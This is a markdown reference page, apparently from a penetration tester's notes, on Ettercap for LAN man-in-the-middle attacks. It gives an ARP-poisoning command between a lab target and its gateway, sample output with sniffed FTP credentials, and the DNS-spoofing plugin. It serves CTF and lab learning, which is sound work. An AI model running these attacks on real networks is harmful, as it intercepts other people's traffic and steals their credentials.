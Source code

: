 #### Official Documentation: [https://www.ettercap-project.org/](https://www.ettercap-project.org/)
#### Cheat Sheet: [[Kali Tools#Ettercap|Ettercap Commands]]
## Purpose
Ettercap is a classic tool for man-in-the-middle (MITM) attacks on LANs. It supports sniffing, ARP poisoning, DNS spoofing, and packet injection.

## Scenarios
- CTF: Poison ARP cache to intercept traffic and capture passwords sent over HTTP.  
- Real world: Demonstrate ARP spoofing or DNS hijacking risks on unsecured LANs.

## All needed info to run
- Run as root: `ettercap`.  
- Modes: GUI (`-G`), text (`-T`), curses (`-C`), daemon (`-D`).  
- Typical workflow:
  1. `ettercap -T -M arp:remote /<target1>/ /<target2>/` → perform ARP poisoning MITM.  
  2. Use filters to modify or sniff packets.  
- Plugins:
  - `dns_spoof` → spoof DNS queries  
  - `remote_browser` → capture visited URLs  
- Config: `/etc/ettercap/etter.conf`.  
- Outputs logs with captured credentials.

## Example commands & outputs
```bash
# Text mode, ARP MITM between target and gateway
$ sudo ettercap -T -M arp:remote /192.168.56.101/ /192.168.56.1/
# Output:
# ARP poisoning victims:
#  /192.168.56.101/ 08:00:27:12:34:56
#  /192.168.56.1/   08:00:27:ab:cd:ef
# sniffed: USER: admin  PASS: password123  FTP 192.168.56.101

# GUI mode
$ sudo ettercap -G
# Brings up curses/GUI for selecting targets and plugins
```

!!! note "Ettercap Basics"
	- Use `-T` for text mode, `-G` for GUI; always run as root.
	- `-M arp:remote` enables ARP MITM between two hosts.
	- Filters and plugins like `dns_spoof` extend functionality.
	- Ettercap is old but still useful for ARP/DNS spoof demos in controlled labs.

### [[Kali Tools#Ettercap|Ettercap Commands]]